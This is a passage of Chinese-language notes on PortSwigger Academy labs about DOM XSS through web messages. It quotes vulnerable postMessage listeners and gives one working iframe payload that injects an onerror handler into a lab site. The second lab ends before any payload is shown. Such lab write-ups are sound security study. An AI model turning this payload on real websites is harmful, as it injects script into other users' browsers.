 這題我覺得蠻有趣，需要結合 [Cross-site scripting](./cross-site-scripting.md) 的知識

## Lab: DOM XSS using web messages

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/dom-based/controlling-the-web-message-source                                |
| Lab       | https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages |

觀察首頁有以下 js

```html
<script>
  window.addEventListener("message", function (e) {
    document.getElementById("ads").innerHTML = e.data;
  });
</script>
```

在 exploit-server 構造

```html
<iframe
  src="https://0aa700b70484ba8f816a210500d10029.web-security-academy.net/"
  onload="this.contentWindow.postMessage('<img src=x onerror=print() />','*')"
></iframe>
```

## Lab: DOM XSS using web messages and a JavaScript URL

| Dimension | Description                                                                                                                           |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/dom-based/controlling-the-web-message-source                                                     |
| Lab       | https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url |

觀察首頁有以下 js

```html
<script>
  window.addEventListener(
    "message",
    function (e) {
      var url = e.data;
      if (url.indexOf("http:") > -1 || url.indexOf("https:") > -1) {
        location.href = url;
      }
    },
    false,
  );
</script>
```
